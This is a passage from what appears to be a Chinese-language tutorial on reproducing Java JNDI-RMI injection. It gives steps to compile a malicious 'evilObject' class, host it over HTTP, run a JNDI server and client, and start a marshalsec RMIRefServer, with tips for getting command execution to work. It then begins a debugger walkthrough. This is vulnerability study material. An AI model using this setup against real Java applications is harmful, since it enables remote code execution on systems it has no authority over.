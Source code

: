 ![JNDI-RMI](./images/8.png)

运行步骤:
 - 编译恶意类文件: `javac evilObject`
 - 在恶意类文件所在处起一个服务: `python3 -m http.server 4444`
 - 运行`JNDIServer`
 - 运行`JNDIClient`

注意事项:
 - `evilObject.java`及其编译的文件放到其它目录下, 避免在当前目录中直接找到该类来成功实现命令执行
 - `evilObject.java`文件不能申明包名, 声明后编译的`class`文件函数名称会加上包名从而不匹配
 - 注意使用`java`版本, 复现时需要满足可用`jdk`版本

除了利用代码搭建一个`RMI`服务外, 可以直接使用现成的工具`marshalsec`起一个`RMI`服务:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:80/#testObject 7777
```

####  5.1.2. <a name='-1'></a>过程分析
在`JNDIClient.java`文件中的`GenericURLContext#lookup`方法处下断点.

![JNDIClient-lookup](./images/9.png)
